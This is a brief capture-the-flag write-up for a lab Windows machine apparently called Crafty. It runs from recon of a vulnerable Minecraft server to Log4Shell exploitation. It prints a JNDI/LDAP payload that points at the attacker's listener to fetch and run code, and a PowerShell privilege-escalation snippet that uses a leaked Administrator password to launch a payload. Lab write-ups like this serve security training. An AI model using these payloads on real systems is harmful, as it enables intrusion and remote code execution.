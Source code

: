 ## Crafty - Windows Machine


- [+]	Target Ip
   >>	10.10.11.249
   

## Recon 

- [1] PORT      STATE SERVICE
- [+] 80/tcp    open  http
- [+] 25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 2/100)


- [+]	Minecraft 1.16.5 vulnerable to log4j 

   >>	couple of github repos to setup ldap servers and to exploit log4j needs to inject the basic $jdni:ldap//ip/a 

   >>	problem was to find a minecraft server cuz there waas no way for me to install minecraft in my vm xD

   >>	found a repo on git 
        
        ```poc.py
            python3 poc.py --userip 10.10.16.77 --webport 8000 --lport 9001 ## add ur tun0 ip instead of localhost  
            [+] Send me: ${jndi:ldap://10.10.16.77:1389/a}
            ```
            
        ```mcli 
            ./mcli whitenight '' 10.10.11.249
            /send ${jndi:ldap://10.10.16.77:1389/a}
            ```
## Privesc

- [+]	Plugin files shows a password for rcon , which didnt work for me earlier 
        ```powershell
        $user = 'Administrator'
        $pass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force
        $creds = New-Object System.Management.Automation.PSCredential($user,$pass)
        Start-Process -FilePath "C:\Users\svc_minecraft\AppData\Local\Temp\priv.exe" -Credential $creds
        ```
